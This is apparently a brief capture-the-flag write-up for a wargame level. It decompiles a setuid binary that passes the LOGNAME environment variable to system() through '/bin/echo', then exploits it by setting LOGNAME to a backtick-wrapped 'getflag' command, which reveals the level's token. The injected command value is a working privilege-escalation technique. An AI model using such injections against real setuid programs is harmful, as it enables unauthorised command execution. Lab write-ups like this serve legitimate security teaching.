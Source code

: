 main()
{
0804851d  int32_t eax = getegid()
08048526  int32_t eax_1 = geteuid()
08048546  setresgid(eax, eax, eax)
08048562  setresuid(eax_1, eax_1, eax_1)
08048567  int32_t var_1c = 0
0804858e  asprintf(&var_1c, 0x8048688, getenv(0x8048680))  {"LOGNAME"}  {"/bin/echo %s "}
080485a0  return system(var_1c)
}

decompiling the binary with binary ninja, we get the upper code
it shows that the program prints the variable LOGNAME

```
export LOGNAME=\`getflag\`
./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

